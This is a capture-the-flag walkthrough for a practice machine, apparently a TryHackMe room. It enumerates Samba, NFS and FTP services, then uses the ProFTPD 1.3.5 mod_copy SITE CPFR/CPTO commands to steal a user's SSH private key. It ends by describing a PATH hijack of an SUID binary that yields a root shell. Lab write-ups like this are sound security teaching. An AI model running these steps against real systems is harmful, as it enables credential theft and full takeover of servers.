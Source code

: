 This room will cover accessing a Samba share, manipulating a vulnerable version of proftpd to gain initial access and escalate privileges to root via an SUID binary.

Machine ip: 10.10.205.10

# Enumeration

## nmap scan

```
sudo nmap -sC -sV -oN initialNmap $IP 
```
Open ports:
* 21/tcp (ftp, proftpd)
* 22/tcp (ssh)
* 80/tcp (http)
* 111/tcp (rpcbind)
* 139/tcp (netbios-ssn Samba smbd)
* 445/tcp (netbios-ssn Samba smbd)
* 2049/tcp (nfs)


## smb
I can see that the machine is running samba (smb), so I run rhe following command to check the smb shares:
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.205.10 -oN nmapSmbShares
```
To inspect one of the shares:
```
smbclient //10.10.205.10/anonymous
```
Found a file: log.txt, so we download it with ```get log.txt```
In this log I could find:
* Information generated for Kenobi when generating an SSH key for the user
* Information about the ProFTPD server.

## rpcbind

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.205.10 -oN nmapRpcbind
```
It shows a mount in /var

# Exploit

## ProFtpd

ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions.
Lets get the version of ProFtpd using netcat to connect to the machine on the FTP port
```
nc $IP 21
```

The ProFTPD version is 1.3.5
To see if there's a vulneravility in this version:
```
searchsploit proftpd 1.3.5
```

And this search found 4 possible exploits: 3 mod_copy and 1 File Copy

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

```
nc $IP 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.205.10]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa 
250 Copy successful
```

We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.
Lets mount the /var/tmp directory to our machine
```
sudo mkdir /mnt/kenobiNFS 
sudo mount $IP:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.
```
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@$IP
```

# Privesc

To search vulnerable files in the system we run the following:
```
find / -perm -u=s -type f 2>/dev/null
```
This shows that we have access to /usr/bin/menu
Running ```strings /usr/bin/menu```

When we look at the results we see curl (an utility found on Linux) is being used in one of the steps during execution. The binary for curl has been directly invoked without using the complete path to the binary. When we don’t specify the complete path the system will look at the PATH variable and search in all the locations that are specified in the path for the file that is required. Since the path variable is editable by anyone we can use this to our advantage.
As this file runs as the root users privileges, we can manipulate our path gain a root shell.

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

